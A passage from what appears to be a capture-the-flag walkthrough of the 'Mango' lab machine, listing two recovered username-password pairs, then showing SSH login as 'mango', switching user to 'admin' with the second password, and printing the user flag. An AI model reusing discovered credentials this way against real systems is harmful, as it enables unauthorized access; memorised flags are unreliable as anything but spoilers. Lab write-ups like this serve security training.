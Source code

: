 admin:t9KcS3>!0B#2

mango:h3mXK8RhU\~f{]f5H

## Gaining Access

We know that port 22 is open on the target, so let's try and connect via SSH using the creds above. The "admin" creds doesn't work, however, we are able to login as the "mango" user.

```
└─$ ssh mango@10.10.10.162                                                                                  130 ⨯
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 18 14:17:19 UTC 2021

  System load:  0.01               Processes:            102
  Usage of /:   33.4% of 19.56GB   Users logged in:      0
  Memory usage: 29%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Nov 18 03:25:53 2021 from 10.10.14.2
mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
mango@mango:~$ ls
mango@mango:~$​
```

Looking around, we find the "admin" users' home directory, which contains the user flag. The flag is only readable by the "admin" user. Let's see if we can switch user to "admin" using the creds we found. We successfully "su" to "admin" and we are now able to read the user flag.aer l

```
mango@mango:/home/admin$ su admin
Password: 
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
$ bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/$ cd ~
admin@mango:/home/admin$ ls
user.txt
admin@mango:~$ cat user.txt
7337777db1aa717714cb81eed329d0d1
admin@mango:/home/admin$

```